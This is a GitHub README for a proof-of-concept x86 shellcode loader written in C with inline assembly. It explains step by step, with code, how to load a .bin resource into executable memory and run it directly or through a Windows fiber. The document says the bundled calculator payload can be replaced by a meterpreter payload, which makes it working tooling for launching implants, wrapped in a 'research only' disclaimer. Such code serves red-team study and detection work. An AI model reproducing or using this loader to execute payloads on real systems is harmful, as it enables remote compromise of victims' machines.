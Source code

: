 # Create_Thread-Inline_Assembly_x86_Fibers
This POC provides the ability to execute **x86 shellcode** in the form of a .bin file based on **x86 inline assembly and execution over fibers**.

The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a **x86 meterpreter.bin payload**.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
``` HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");
```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
``` DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
``` void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part defines a fiber callback function called FiberStart(). The function takes a single LPVOID parameter, which is a void pointer that can be used to pass data to the function. The function casts the lpParameter parameter to a shellcode function pointer type, and then calls the shellcode function.
```// Fiber callback function
VOID CALLBACK FiberStart(LPVOID lpParameter)
{
    // Cast the parameter to the shellcode function pointer type
    typedef void(*ShellcodeFn)();
    ShellcodeFn shellcode = (ShellcodeFn)lpParameter;

    // Call the shellcode function
    shellcode();
}
```
This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
```
